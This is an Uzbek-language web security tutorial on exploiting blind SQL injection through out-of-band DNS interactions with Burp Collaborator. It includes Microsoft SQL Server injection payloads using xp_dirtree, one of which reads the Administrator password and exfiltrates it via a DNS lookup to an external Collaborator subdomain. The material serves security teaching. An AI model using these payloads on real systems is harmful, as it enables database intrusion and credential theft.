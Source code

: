 ## Blind SQL injection’ni **out-of-band (OAST)** texnikalari yordamida ekspluatatsiya qilish

Ilova oldingi misoldagidek SQL so‘rovini bajarishi mumkin, ammo uni **asinxron** tarzda amalga oshiradi. Ya’ni, ilova foydalanuvchining so‘rovini asosiy oqimda qayta ishlashda davom etadi, SQL so‘rovini esa boshqa oqim yordamida `tracking cookie` orqali bajaradi.

So‘rov hali ham SQL injection’ga zaif bo‘lsa-da, ilgari ko‘rib chiqilgan texnikalar bu yerda ishlamaydi. Chunki:

* Ilovaning javobi SQL so‘rovi qaytaradigan ma’lumotga bog‘liq emas
* Ma’lumotlar bazasi xatosi yuz berishiga bog‘liq emas
* Yoki so‘rovni bajarish uchun ketgan vaqtga ham bog‘liq emas.

Bunday holatda, blind SQL injection zaifligini **o‘z nazoratingizdagi tizimga tashqi tarmoq o‘zaro ta’sirlarini** (network interactions) majburlab yuborish orqali ekspluatatsiya qilish mumkin bo‘ladi. Bunday o‘zaro ta’sirlar injekt qilingan shartga qarab birma-bir ma’lumotni aniqlash uchun ishlatilishi mumkin. Bundan ham foydaliroq usuli — ma’lumotlarni to‘g‘ridan-to‘g‘ri shu tashqi tarmoq o‘zaro ta’siri orqali **exfiltratsiya qilish** (ya’ni, chiqarib yuborish).

Buning uchun turli xil tarmoq protokollaridan foydalanish mumkin, ammo odatda eng samaralisi bu **DNS (domain name service)** hisoblanadi. Chunki ko‘plab ishlab chiqarish (production) tarmoqlari normal tizimlarning ishlashi uchun zarur bo‘lgani sababli DNS so‘rovlarini tashqariga chiqishga (egress) ruxsat beradi.

Out-of-band texnikalardan foydalanish uchun eng oson va eng ishonchli vosita bu **Burp Collaborator** hisoblanadi. Bu server turli xil tarmoq xizmatlarining (DNS ham qo‘shilgan) maxsus implementatsiyalarini taqdim etadi. U sizga zaif ilovaga yuborilgan ma’lum **payload** natijasida tarmoq o‘zaro ta’sirlari yuzaga kelganini aniqlash imkonini beradi.

**Burp Suite Professional** ichida Burp Collaborator bilan darhol ishlashga sozlangan maxsus mijoz (client) mavjud. Batafsil ma’lumot uchun Burp Collaborator hujjatlariga murojaat qilishingiz mumkin.

---

**DNS so‘rovlari yuborilishini qo‘zg‘atish texnikalari** ishlatilayotgan ma’lumotlar bazasiga xosdir. Masalan, **Microsoft SQL Server** da quyidagi input orqali ma’lum domen bo‘yicha DNS lookup’ni majburlash mumkin:

```sql
'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--
```

Bu kod ma’lumotlar bazasini quyidagi domen bo‘yicha DNS lookup amalga oshirishga majbur qiladi:

```
0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net
```


**Ko‘r (blind) SQL injeksiyasidan tashqarida aloqa (OAST) texnikalari orqali foydalanish – Davomi**

Tashqarida aloqa (out-of-band) o‘zaro ta’sirlarini ishga tushirish usuli aniqlangach, ushbu kanal orqali zaif ilovadan ma’lumotlarni chiqarib olish (exfiltratsiya qilish) mumkin. Masalan:

```sql
'; declare @p varchar(1024);
set @p=(SELECT password FROM users WHERE username='Administrator');
exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--
```

Ushbu input **Administrator** foydalanuvchisining parolini o‘qiydi, uni noyob Collaborator subdomeniga qo‘shadi va DNS so‘rovini ishga tushiradi. Ushbu so‘rov orqali parolni ushlab olish mumkin:

```
S3cure.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net
```

Out-of-band (OAST) texnikalari ko‘r SQL injeksiyasini aniqlash va ekspluatatsiya qilishda kuchli usul hisoblanadi, chunki muvaffaqiyat ehtimoli yuqori va ma’lumotlarni bevosita tashqi kanal orqali chiqarib olish imkonini beradi. Shu sababli, ko‘pincha boshqa ko‘r injeksiya usullari ishlagan holatlarda ham OAST texnikalaridan foydalanish ma’qul bo‘ladi.

**Eslatma:**
Tashqarida aloqa (out-of-band) o‘zaro ta’sirlarini ishga tushirishning turli usullari mavjud va ular turli xil ma’lumotlar bazalariga qarab farqlanadi. Batafsil ma’lumot uchun *SQL injection cheat sheet*’ni ko‘ring.

